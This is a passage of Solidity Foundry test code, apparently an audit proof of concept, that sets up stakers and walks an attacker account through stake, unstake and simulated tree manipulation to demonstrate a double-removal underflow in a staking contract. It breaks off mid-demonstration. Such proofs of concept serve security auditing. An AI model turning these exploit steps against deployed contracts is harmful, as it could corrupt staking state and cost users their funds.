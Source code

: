 ```solidity

        // Fund users
        vm.startPrank(admin);
        token.transfer(attacker, 100_000 * 1e18);
        token.transfer(victim, 100_000 * 1e18);
        token.transfer(alice, 100_000 * 1e18);
        token.transfer(bob, 100_000 * 1e18);
        
        // Fund rewards
        token.approve(address(staking), 100_000 * 1e18);
        staking.depositRewards(100_000 * 1e18);
        vm.stopPrank();
    }

    function test_RealScenario_DoubleRemovalExploit() public {
        console2.log("=== Setting up scenario for double removal exploit ===");
        
        // Step 1: Setup initial stakers to create tier structure
        vm.startPrank(victim);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
        vm.stopPrank();
        
        vm.startPrank(alice);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
        vm.stopPrank();
        
        // Attacker stakes ABOVE minimum to get a valid joinId first
        vm.startPrank(attacker);
        token.approve(address(staking), MIN_STAKE * 2);
        staking.stake(MIN_STAKE);
        vm.stopPrank();
        
        console2.log("Initial setup complete:");
        console2.log("Victim tier:", uint256(staking.getCurrentTier(victim)));
        console2.log("Alice tier:", uint256(staking.getCurrentTier(alice)));
        console2.log("Attacker tier:", uint256(staking.getCurrentTier(attacker)));
        
        // Get attacker's joinId
        (,,,uint256 attackerJoinId,,,,,) = staking.users(attacker);
        console2.log("Attacker joinId:", attackerJoinId);
        
        // Step 2: Attacker unstakes to trigger first removal from tree
        vm.warp(block.timestamp + 7 days + 1);
        
        vm.startPrank(attacker);
        staking.unstake(MIN_STAKE / 2 + 1); // Unstake enough to go below minStake
        vm.stopPrank();
        
        // Check attacker is now out of tree
        (,,,,,, bool outOfTree,,) = staking.users(attacker);
        assertTrue(outOfTree, "Attacker should be out of tree");
        console2.log("Attacker out of tree:", outOfTree);
        
        // Step 3: Demonstrate what happens with direct tree manipulation (simulating bug)
        // This simulates a scenario where boundary checking logic has a bug
        console2.log("=== Demonstrating underflow vulnerability ===");
        
        // Simulate the tree state after first removal
        treeHelper.update(attackerJoinId, 1); // Add
        console2.log("Tree position after add:", treeHelper.getData(attackerJoinId));
        
```